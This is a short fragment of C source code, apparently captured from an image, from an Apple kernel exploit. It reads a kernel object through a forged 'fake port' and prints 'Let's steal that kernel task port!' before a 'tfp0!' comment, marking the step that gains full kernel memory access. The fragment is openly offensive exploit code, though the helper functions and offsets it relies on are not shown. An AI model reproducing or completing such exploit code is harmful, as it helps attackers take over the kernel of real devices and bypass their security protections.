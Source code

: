 ```c
uint64_t struct_task;
kr64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT), struct_task);
if (!struct_task) {
    printf("[-] kernel read failed!\n");
    goto err;
}

printf("[!] READING VIA FAKE PORT WORKED? 0x%llx\n", struct_task);
printf("[+] Let's steal that kernel task port!\n");

// tfp0!

